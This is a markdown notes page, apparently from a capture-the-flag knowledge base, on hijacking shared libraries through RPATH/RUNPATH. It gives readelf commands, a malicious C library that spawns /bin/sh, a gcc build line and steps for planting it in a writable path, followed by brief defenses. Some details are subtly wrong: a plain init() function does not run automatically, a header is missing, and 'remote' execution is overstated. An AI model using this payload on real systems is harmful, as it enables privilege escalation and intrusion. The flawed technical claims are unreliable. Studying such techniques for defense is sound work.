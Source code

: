 ```yaml
---
title: Library Hijacking via RPATH/RUNPATH
parent: Protection Bypass
grand_parent: Pwn
great_grand_parent: Categories
nav_order: 5
---
```


# Library Hijacking via RPATH/RUNPATH

## What are RPATH and RUNPATH?

- Hardcoded search paths for shared libraries (dynamic linker uses them).
- Set during compilation with flags like:
\`\`\`
-Wl,-rpath,/some/dir
\`\`\`

---

## Why is it Dangerous?

- If an attacker can place a malicious library in a directory listed in RPATH or RUNPATH, it will be loaded **before** system libraries.
- Allows arbitrary code execution during program startup.

---

## How to Exploit?

1. **Find the RPATH or RUNPATH**:
   - Use \`readelf\`:
\`\`\`
readelf -d <binary> | grep RPATH
readelf -d <binary> | grep RUNPATH
\`\`\`

2. **Create a Malicious Library**:
   - Write your payload in C:
\`\`\`c
#include <stdio.h>
void init() {
    system("/bin/sh");
}
\`\`\`

- Compile:
\`\`\`
gcc -shared -fPIC -o libmylib.so mylib.c
\`\`\`

3. **Place Library in RPATH Directory**:
   - If RPATH includes \`/tmp\`, put \`libmylib.so\` there.

4. **Run the Binary**:
   - It will load your malicious library automatically.

---

## Example Attack

1. Binary has RPATH \`/tmp\`.
2. You create \`libc.so.6\` with a malicious \`init\` function.
3. When the binary runs, it uses your fake \`libc.so.6\`.

---

## Defense

- Avoid setting RPATH or RUNPATH.
- Use only secure and absolute paths.
- Use full RELRO, PIE, and enable hardened linking flags.

---

## Summary

- **RPATH**/**RUNPATH** vulnerabilities can lead to preloading attacker-controlled shared libraries.
- Easy route for remote/local code execution if writable directory is included.
- Always check for these fields with \`readelf\` during binary analysis.
